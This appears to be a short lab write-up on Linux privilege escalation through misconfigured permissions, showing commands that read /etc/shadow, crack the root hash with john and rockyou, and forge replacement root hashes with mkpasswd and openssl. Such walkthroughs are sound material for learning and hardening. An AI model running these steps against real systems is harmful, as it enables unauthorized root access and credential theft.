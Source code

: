 
## 2. Week file permission 
### Readable
#/etc/shadow 
Here I will be exploiting the shadow file which have read permission.
At first I have check the permission of `shadow` file.
```bash
root@gr4n173:~$ ls -al /etc/shadow
-rw-r--rw- 1 root shadow 845 May  2 03:41 /etc/shadow
```


There you can see the `rw` permission to others. So I have read the shadow file and collected the hash of root user.
```bash
root@gr4n173:~$ cat /etc/shadow          
root:Hashesh over here :0:99999:7:::                                     
daemon:*:17298:0:99999:7:::                                                     
bin:*:17298:0:99999:7::: 
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::  
```


Now after collecting `hash` I have used `john` to crack the hash using `rockyou` password wordlist.
```bash
root@gr4n173:~$ john --wordlists=/usr/share/rockyou.txt hash
```


### Writable
# /etc/shadow
For the week file permission I have created the new hash of newpassword using `mkpasswd` tool in kali linux.

```zsh
root@gr4n173:~$ mkpasswd -m sha-512 passwordhere
$6$gdvluNMatnPMjy7r$1oYL8zHY7vcNAQM1QLtoVN8V6cwKIbmXuWoft3fjwS4hPy.ZOOENIs66T6M7IitJeH9U6x3MKi8lJJp7FDifI.
 ```
 
 
 Now generated password can be replaced with the hash of `root` user and then we can login using the same password as a root.
 
 ### Writable 
 #/etc/passwd
 For this we can create the new hash of newpassword using `openssl` tool 
 ```bash
 root@gr4n173:~$ openssl passwd newpassword
 Warning: truncating password to 8 characters 
xuMbZmFpJEH/s                                
```
